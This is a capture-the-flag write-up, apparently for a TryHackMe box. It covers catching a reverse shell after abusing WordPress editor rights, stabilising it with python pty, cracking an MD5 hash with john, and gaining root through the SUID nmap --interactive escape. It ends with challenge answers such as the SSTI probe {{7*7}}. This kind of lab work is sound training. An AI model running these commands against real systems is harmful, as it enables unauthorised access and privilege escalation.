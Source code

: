 I abused the editor privileges to get a reverse shell to that machine. I executed the php revshell on the site as I listen on my attacker machine.

```
┌──(k4p3r3㉿kali)-[~/Downloads/thm.tasks/CybershujaaPractice]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.16.84] from (UNKNOWN) [10.10.129.170] 51451
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:18:45 up 29 min,  0 users,  load average: 0.00, 0.03, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 


```
Yes we got our shell. Lets make the shell stable
```
python -c "import pty;pty.spawn('/bin/bash')"
daemon@linux:/$ 

```
>When I navigated to the `/home/robot` directory I found the second key and an MD5 password hash. This gives us a hint  that to read the key, I needed a password which might be contained in the password hash. I used john to try  crack the password hash.

`john md5.hash --wordlist=fsocity.dic --format=Raw-MD5`

>I got the password and I was able to read the second key.
## Privilege Escalation 
>In privilege escalation, I tried several tricks but couldn't really work until I attempted to find some SUID binaries

`find / -perm +6000 2>/dev/null | grep '/bin'`
>I quickly spotted the nmap binary SUID. Went to GTFOBins to find its exploit
>On the terminal, I used this exploit for nmpa suid binary to have my way in as `root`

```
nmap --interactive

!sh
```
### The Challenge Questions

How Many Ports are Open on the Machine ?
 `3`
 From the scan results only 2 ports were open but anyway the correct answer accepted was that of 3 ports which were displayed from the scan.
What Is CMS in full ? (lowercase) 
```
 content management system
```
Google it!!😂
From Your Enumeration name the CMS in use ?(lowercase)
```
wordpress
```
Assuming there was a WEB application with a SSTI vulnerabilty whats the payload used to test this ? 
```
{{7*7}}
```
Ask google!!
Whats the name of the file used to prevent indexing by search engines on a webserver ?
```
robots.txt
```